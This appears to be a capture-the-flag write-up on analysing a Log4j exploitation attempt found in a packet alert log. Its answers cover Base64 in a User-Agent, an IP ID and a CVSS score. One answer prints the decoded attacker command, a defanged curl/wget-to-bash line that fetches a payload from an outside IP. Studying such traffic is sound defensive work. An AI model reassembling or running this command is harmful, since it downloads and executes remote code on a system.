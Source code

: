 ### What is the number of detected packets?
> 41

### Investigate the log. What is the name of the used encoding algorithm?
Investigating the log using -X didn't reveal much useful, but finding readable strings using `strings` reveals the `Base64` encoding, in the User-Agent of the packet.
> Base64

### What is the IP ID of the corresponding packet?
In the User-Agent we find the source IP address.  
Using this `45.155.205.233` with strings and grep, we can find the corresponding IP ID of the packet.
`sudo strings alert | grep -e 45.155.205.233 -e ID`
The ID will show on the following line, of the IP address.
> 62808

### Decode the encoded command. What is the attacker's command?
Going back to the User-Agent we see an encoded message after the `Base64/`. This encoded message can be decoded in a few ways, but a quick way is by utilising CyberChef, which will return the answer to us.  
The answer here is defanged for good measure.
> (curl -s 45[.]155[.]205[.]233:5874/162[.]0[.]228[.]253:80||wget -q -O- 45[.]155[.]205[.]233:5874/162[.]0[.]228[.]253:80)|bash

### What is the CVSS v2 score of the Log4j vulnerability?
A quick search reveals the score.
> 9.3
